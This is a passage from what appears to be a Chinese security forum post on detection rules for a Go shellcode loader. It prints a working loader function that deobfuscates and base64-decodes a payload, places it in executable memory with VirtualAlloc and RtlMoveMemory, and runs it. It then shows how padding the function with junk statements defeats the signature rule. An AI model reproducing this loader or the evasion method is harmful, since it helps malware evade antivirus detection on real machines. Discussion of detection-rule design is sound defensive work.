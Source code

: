 本地测试的几个样本全部命中，并且没有误报

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-fb04a34de28766f3193b92840f528efb3395e88c.png)

### 怎么绕过该规则的检测？

出于避免误报和误杀的目的，其实做检测规则的限制很多，提取面要是太窄，那就会提高误报的几率。

比如我就提取下面这一段比较：

```go
    str1 :=strings.Replace(ddm, "#", "A", -1 )
    str2 :=strings.Replace(str1, "!", "H", -1 )
    str3 :=strings.Replace(str2, "@", "1", -1 )
    str4 :=strings.Replace(str3, ")", "T", -1 )
```

谁知道会不会有那个正常软件碰巧用了这个规则呢，不就几个正常的替换吗？如果误报了过多正常的软件，那么可能就会被投诉甚至是不信任，所带来的负面影响我觉得高于你规则本身的漏报。

所以我选择提取这一整个函数出来:

```go
func build(ddm string){
    str1 :=strings.Replace(ddm, "#", "A", -1 )
    str2 :=strings.Replace(str1, "!", "H", -1 )
    str3 :=strings.Replace(str2, "@", "1", -1 )
    str4 :=strings.Replace(str3, ")", "T", -1 )
    sDec,_ := base64.StdEncoding.DecodeString(str4) 
    addr, _, _ := VirtualAlloc.Call(0, uintptr(len(sDec)), 0x1000|0x2000, 0x40)
    _, _, _ = RtlMoveMemory.Call(addr, (uintptr)(unsafe.Pointer(&amp;sDec[0])), uintptr(len(sDec)))
    syscall.Syscall(addr, 0, 0, 0, 0)

}
```

前面说过攻和防是一体的，知道别人怎么防才知道怎么绕过，现在知道了提取的点，便知道怎么去修饰对应代码来避免被特征匹配。

比如你随便加一点无关代码：

```go
func build(ddm string){
    str1 :=strings.Replace(ddm, "#", "A", -1 )
    str2 :=strings.Replace(str1, "!", "H", -1 )
    str3 :=strings.Replace(str2, "@", "1", -1 )
    str4 :=strings.Replace(str3, ")", "T", -1 )
    fmt.Println("666")
    fmt.Println("666")
    fmt.Println("666")
    sDec,_ := base64.StdEncoding.DecodeString(str4) 
    addr, _, _ := VirtualAlloc.Call(0, uintptr(len(sDec)), 0x1000|0x2000, 0x40)
    _, _, _ = RtlMoveMemory.Call(addr, (uintptr)(unsafe.Pointer(&amp;sDec[0])), uintptr(len(sDec)))
    syscall.Syscall(addr, 0, 0, 0, 0)

}
```
